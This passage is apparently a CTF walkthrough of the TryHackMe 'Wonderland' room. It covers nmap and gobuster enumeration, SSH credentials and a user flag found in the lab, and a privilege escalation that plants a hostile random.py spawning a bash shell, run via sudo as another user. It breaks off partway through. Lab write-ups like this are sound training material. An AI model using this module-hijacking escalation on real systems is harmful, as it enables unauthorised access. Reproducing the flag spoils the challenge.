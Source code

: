 # [Wonderland](https://tryhackme.com/room/wonderland)

```
export IP=10.10.254.104
```

---

## Task 1
1. User flag

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 07:25 EDT
	Nmap scan report for 10.10.204.12
	Host is up (0.12s latency).
	Not shown: 998 closed tcp ports (conn-refused)
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
	|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
	|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
	80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
	|_http-title: Follow the white rabbit.
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 45.00 seconds

	```

	b. Gobuster scan (`gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-common.log`):
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.204.12
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/10/02 07:26:19 Starting gobuster in directory enumeration mode
	===============================================================
	/img                  (Status: 301) [Size: 0] [--> img/]
	/index.html           (Status: 301) [Size: 0] [--> ./]  
	/r                    (Status: 301) [Size: 0] [--> r/]  
	                                                        
	===============================================================
	2022/10/02 07:27:07 Finished
	===============================================================
	```

	c. Found the URL, `http://$IP/r/a/b/b/i/t`, by first going to the /r path then running gobuster again, then finding the /a path, then running gobuster, and so on until I found the pattern.

	d. Inpected the page's source code and found what seems to be SSH credentials:
	```
	alice
	HowDothTheLittleCrocodileImproveHisShiningTail
	```

	e. SSH doesn't seem to be working and the page seems to be acting funky so I restarted the machine.

	f. Turned out to be my own personal VPN that was causing some issues. Turned it off. Restarted my OpenVPN connection and was able to get an SSH connections.

	g. Now that we're in. We run `ls` and see that the `root.txt` file is in alice's home directory. It can't be read, but it's curious as to why it would be there. In fact, it begs the question, is the `user.txt` flag in the root directory? Doesn't hurt to check...

	h. Found the `user.txt` flag @ `/root/user.txt`:
	```
	thm{"Curiouser and curiouser!"}
	```


2. Root flag

	a. Ran a `sudo -l` to see what damage I could do as alice.
	```
	[sudo] password for alice: 
	Matching Defaults entries for alice on wonderland:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User alice may run the following commands on wonderland:
	    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
	```

	b. Looks like I can run a Python script to gain access to the `rabbit` user.

	c. After taking a look at the Python script, `walrus_and_the_carpenter.py`, I noticed that it doesn't have a shabang at the top so I'm wondering if I can exploit that...

	d. I think I can create my own `random.py` file in the same directory as `walrus_and_the_carpenter.py` so that anytime `walrus_and_the_carpenter.py` is called, it executed my `random.py` file instead of the built-in python module, `random`.

	e. Created `random.py` with the following contents:
	```
	#!/usr/bin/python3.6
	import os
	os.system("/bin/bash")
	```

	f. Then I executed the exploit:
	```
	sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
	```

	g. BOOM! Gained access to the `rabbit` user.

	h. Looking in `rabbit`'s home directory, we find an executable, `./teaParty`, which when run outputs the following:
	```
	Welcome to the tea party!
	The Mad Hatter will be here soon.
	Probably by Mon, 03 Oct 2022 02:55:56 +0000
	Ask very nicely, and I will give you some tea while you wait for him
	```

	i. Looks like it's a callout to when something gets executed as the `hatter` user. Another privilege escalation opportunity perhaps??

	j. 